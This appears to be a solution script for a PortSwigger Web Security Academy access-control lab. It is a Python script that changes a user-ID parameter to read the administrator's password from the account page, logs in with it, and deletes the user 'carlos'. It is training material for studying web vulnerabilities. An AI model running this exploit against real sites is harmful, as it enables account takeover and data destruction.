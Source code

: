 # Lab: User ID controlled by request parameter with password disclosure

Link to lab: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0af200df035e5e06c20dca1d008f0013.web-security-academy.net/'


# Get carlos information
params = {
    'id': 'administrator',
}  

response = requests.get(
    url + 'my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

soup = BeautifulSoup(response.text, 'html.parser')
password = soup.find('input', {'name': 'password'})['value']

## Get login

session = requests.Session()

response = session.get(
    url + 'login',
    verify=False,
)


soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

# Post login

data = {
    "csrf": csrf,
    'username': 'administrator',
    'password': password,
}

response = session.post(
    url + 'login',
    data=data,
    verify=False,   
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

# Delete user carlos

cookies = {
    'session': session,
}

response = requests.get(
    url + 'admin/delete?username=carlos',
    cookies=cookies,
    verify=False
)

print(response.text)
```